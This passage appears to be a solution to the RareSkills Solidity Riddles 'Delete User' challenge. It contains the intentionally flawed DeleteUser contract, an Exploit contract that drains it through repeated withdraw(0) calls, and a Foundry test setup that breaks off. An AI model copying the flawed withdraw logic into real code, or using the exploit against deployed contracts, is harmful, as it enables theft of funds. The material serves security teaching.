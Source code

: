 ## RareSkills Solidity Riddles: Delete User
Link: https://github.com/RareSkills/solidity-riddles/blob/main/contracts/DeleteUser.sol

### Contracts
- `src/Week10-11/DeleteUser.sol`
```
contract DeleteUser {
    struct User {
        address addr;
        uint256 amount;
    }

    User[] private users;

    function deposit() external payable {
        users.push(User({addr: msg.sender, amount: msg.value}));
    }

    function withdraw(uint256 index) external {
        User storage user = users[index];
        require(user.addr == msg.sender);
        uint256 amount = user.amount;

        user = users[users.length - 1];
        users.pop();

        msg.sender.call{value: amount}("");
    }
}

contract Exploit {
    DeleteUser public deleteUserContract;

    constructor(DeleteUser _deleteUserContract) {
        deleteUserContract = _deleteUserContract;
    }

    receive() external payable {}

    function exploit() public {
        deleteUserContract.deposit{value: 1 ether}();
        deleteUserContract.deposit{value: 0 ether}();
        deleteUserContract.withdraw(0);
        deleteUserContract.withdraw(0);
    }
}
```
- `test/Week10-11/DeleteUser.t.sol`
```
contract DeleteUserTest is Test {
    DeleteUser deleteUserContract;
    Exploit exploitContract;
    address attackerWallet;

    function setUp() public {
        deleteUserContract = new DeleteUser();
        attackerWallet = address(0xbadbad);
        exploitContract = new Exploit(deleteUserContract);
        vm.deal(address(deleteUserContract), 1 ether);
        vm.deal(address(exploitContract), 1 ether);
    }

    function testExploit() public {
```